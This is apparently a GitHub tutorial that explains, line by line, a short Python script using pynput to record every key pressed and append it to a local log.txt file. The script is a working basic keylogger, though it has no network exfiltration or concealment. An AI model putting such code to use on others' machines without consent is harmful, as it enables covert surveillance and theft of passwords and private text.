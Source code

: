 # Creating and Deploying a Keylogger using Python

## Introduction

## OBJECTIVES
- Importing Required Module
- Defining 'log-keystroke' Function
- Handling Special Keys
- Logging The Key Strokes
- Starting Key Listener
- Summary

### 1. Importing Required Modules
    
    from pynput.keyboard import Listener

This line imports the Listener class from the pynput.keyboard module. pynput is a library used to control and monitor input devices like the keyboard and mouse in Python. The Listener class allows us to monitor keyboard events such as key presses.

### 2. Defining 'log-keystroke' Function

    def log_keystroke(key):
        key = str(key).replace("'", "")

This is the beginning of a function called log_keystroke, which will handle each key press event.

<b>key = str(key).replace("'", ""):</b>

The key parameter represents the key that was pressed. It's converted to a string, and any single quotes (') are removed. This is done because keys are often represented as strings in the form "'a'", and we want to clean this up for easier reading and logging.

### 3. Handling Special Keys

    if key == 'Key.space':
        key = ' '
    if key == 'Key.shift_r':
        key = ''
    if key == "Key.enter":
        key = '\n'
    if key == 'Key.alt_l' or key == 'Key.alt_r':
        key = ''
    if key == 'Key.tab':
        key = ''
    if key == 'Key.backspace':
        key = ''

This part of the code checks if the pressed key is a special key and replaces it with a corresponding character:

<b>if key == 'Key.space': key = ' '</b>

If the pressed key is the space bar (Key.space), it replaces it with an actual space character (' ').

<b>if key == 'Key.shift_r': key = ''</b>

If the pressed key is the right Shift key (Key.shift_r), it replaces it with an empty string. The Shift key by itself does not produce any character, so it's effectively ignored.

<b>if key == "Key.enter": key = '\n'</b>

If the pressed key is the Enter key (Key.enter), it replaces it with a newline character ('\n').

<b>if key == 'Key.alt_l' or key == 'Key.alt_r': key = ''</b>

If the pressed key is the left or righ Alt key (Key.alt_r) or (Key.alt_l), it replaces it with an empty string.

<b>if key == 'Key.tab': key = ''</b>

If the pressed key is the tab key (Key.tab), it replaces it with an empty string.

<b>if key == 'Key.backspace': key = ''</b>

If the pressed key is the backspace key (Key.backspace), it replaces it with an empty string.

### 4. Logging The Keystrokes
      
      with open("log.txt", 'a') as f:
        f.write(key)
This part of the function opens a file named log.txt in append mode ('a').
<b>with open("log.txt", 'a') as f:</b>
This line writes the processed key (after any necessary replacements) to the file. Each key press is logged sequentially.

### 5. Starting the Key Listner
    with Listener(on_press=log_keystroke) as l:
    l.join()
This part of the code sets up the keyboard listener:
<b>with Listener(on_press=log_keystroke) as l:</b>
A Listener object is created, and the on_press event is tied to the log_keystroke function. This means that every time a key is pressed, the log_keystroke function will be called.
<b>l.join()</b>
The join() method is called on the listener, which makes the program wait for keyboard events indefinitely. The program will continue to run, logging all keystrokes until it is manually stopped.

## Summary

This script sets up a basic keylogger that captures every key pressed and writes it to a file named log.txt. It handles regular characters, as well as some special keys like space, shift, and enter, tab and alt. The pynput library is used to monitor the keyboard, and the listener runs indefinitely, capturing and logging each key press.


        
